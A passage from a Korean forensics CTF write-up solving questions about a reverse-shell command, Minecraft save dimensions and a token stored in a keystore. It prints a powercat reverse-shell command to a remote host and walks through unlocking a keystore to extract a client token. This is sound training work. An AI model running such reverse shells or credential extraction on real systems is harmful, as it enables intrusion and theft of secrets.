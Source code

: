 powercat -c 192.168.191.253 -p 4444 -e cmd:<br>
powercat는 PowerShell 환경에서 Netcat과 유사한 기능을 제공하는 툴이다.<br>
-c 192.168.191.253는 클라이언트 모드로 192.168.191.253 IP 주소의 서버에 연결하라는 옵션이다.<br>
-p 4444는 해당 서버의 4444 포트로 연결하라는 옵션이다.<br>
-e cmd는 연결이 이루어지면 명령 셸(cmd)을 실행하라는 의미이다.<br>
종합적으로, 이 명령어는 원격 서버에서 powercatps1 스크립트를 다운로드하고 실행하여, 로컬 컴퓨터를 192.168.191.253의 서버와 연결한 후, 명령 셸을 실행하도록 설정하는 것이다. 이러한 명령은 주로 원격 제어나 해킹, 침투 테스트 등의 목적으로 사용된다.<br><br>

yay~ 문제에서 물어보는 내용은 결국 **-c 192.168.192.253 -p 4444 -e cmd**가 된다.<br><br><br><br>



**Q15. Hello (New) World -> How many dimensions (including the overworld) did the player travel to in the "oldest of the worlds"?<br><br>**

다시 등장한 마인크래프트 관련된 문제이다. Mr.Gamer라는 문제 답게 게임 관련 질문이 쏟아지고 있는 중이다.<br>
문제는 가장 오래 전에 생성된 마인크래프트 월드에서 플레이어가 여행을 하는데, 얼마나 많이 dimensions를 탐험했냐고 묻고 있다.<br><br>

우선 .minecraft/saves에는 .이라는 파일, ..이라는 파일, 1_1_8 world라는 파일, New World라는 파일이 존재하는데 가장 오래된 New World 파일을 조사해보면 되겠다.<br><br>

마인크래프트에서는 오버월드/네더/엔드라는 3가지 차원이 존재한다. 즉, 플레이어가 오버월드, 네더, 엔드라는 3가지 차원을 이동한 횟수를 물어보는 문제이다.<br><br>

위 마인크래프트 관련 문제를 풀 때, root\home\rafael\.minecraft\saves\ 경로로 향하였는데<br>
New World라는 파일을 보면 DIM1, DIM-1 등이 있는데 DIM은 dimension의 줄임말로 보이며 DIM1, DIM-1 디렉토리 안에는 정보들이 들어있지 않다.<br><br>

그 말인 즉슨, 기본으로 플레이어가 스폰하는 월드인 오버월드를 제외하고는 DIM1, DIM-1이라는 차원으로 이동을 하지 않았다는 소리가 된다.<br>
문제에서는 오버월드를 포함하여 물어보고 있기 때문에 답은 **One**이 된다.<br><br><br><br>



**Q16. Matrix_1999 is the key! -> What is the mojangClientToken stored in the Keystore?<br><br>**

16번 문제는 mojangClientToken을 찾는 문제다.<br>
이전 문제들에 비해 난이도가 올라간 문제인데,<br><br>

첫 번째로, keystore을 찾아볼 것이다.<br><br>

sudo find /mnt/Linux -name "*.keystore"<br>
#returns /mnt/Linux/home/rafael/.local/share/keyrings/user.keystore><br><br>

그 후,  사용자의 keystore을 sudo find /mnt/Linux -name "*.keystore" 명령어를 통해 keyrings 디렉토리에 복사한 뒤 이름을 바꾸었다.<br><br>

cp /mnt/Linux/home/rafael/.local/share/keyrings/user.keystore /home/remnux/.local/share/keyrings/rafael.keystore<br>
그 후, Passwords and Keys를 가상머신에서 오픈을 해주었꼬, Matrix_1999라는 비밀번호를 통해 잠금해제하였다.<br><br>

![MRGAMER_16_00](https://github.com/user-attachments/assets/d0b683c1-9f32-432e-b425-4b2d326f0f56)<br>
쭉 아래로 내리다보면 mojangClientToken을 찾을 수 있었다. 그리고 이것을 복사하여 터미널에 값을 얻기 위해 붙여넣었다.<br><br>

![1_oOdf4NeldlO3WER03DKj9Q](https://github.com/user-attachments/assets/c16368e3-49d9-4009-a51b-bcb88eb9b0ed)<br>
값, **2f76c8b04c004ddd888a05a6cad6be52**을 획득하였다.<br><br><br><br>



16번 문제를 푸는데 조금 힘들어서 여기저기 서칭을 많이 하고 다녔던 것 같다.







